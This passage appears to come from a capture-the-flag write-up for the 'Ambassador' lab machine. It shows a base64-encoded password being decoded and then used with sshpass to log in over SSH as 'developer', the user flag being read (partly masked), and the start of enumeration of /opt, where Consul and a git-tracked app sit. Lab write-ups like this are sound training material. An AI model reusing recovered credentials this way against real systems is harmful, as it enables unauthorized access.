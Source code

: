 ```

oxdf@hacky$ echo "YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==" | base64 -d
anEnglishManInNewYork027468

```

That works to SSH as developer:

```

oxdf@hacky$ sshpass -p 'anEnglishManInNewYork027468' ssh developer@10.10.11.183
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-126-generic x86_64)
...[snip]...
developer@ambassador:~$ 

```

And grab the user flag:

```

developer@ambassador:~$ cat user.txt
16a62cde************************

```

## Shell as root

### Enumeration

#### /opt

The `/opt` folder has two important folders to get to the next step:

```

developer@ambassador:/opt$ ls
consul  my-app

```

The `consul` folder is [Consul](https://github.com/hashicorp/consul):

> a distributed, highly available, and data center aware solution to connect and configure applications across dynamic, distributed infrastructure.

The `my-app` folder has two folders, and references “whackywidget”, which I’ll recall from the DB where I found developer creds.

```

developer@ambassador:/opt/my-app$ ls -la
total 24
drwxrwxr-x 5 root root 4096 Mar 13  2022 .
drwxr-xr-x 4 root root 4096 Sep  1 22:13 ..
drwxrwxr-x 4 root root 4096 Mar 13  2022 env
drwxrwxr-x 8 root root 4096 Mar 14  2022 .git
-rw-rw-r-- 1 root root 1838 Mar 13  2022 .gitignore
drwxrwxr-x 3 root root 4096 Mar 13  2022 whackywidget

```
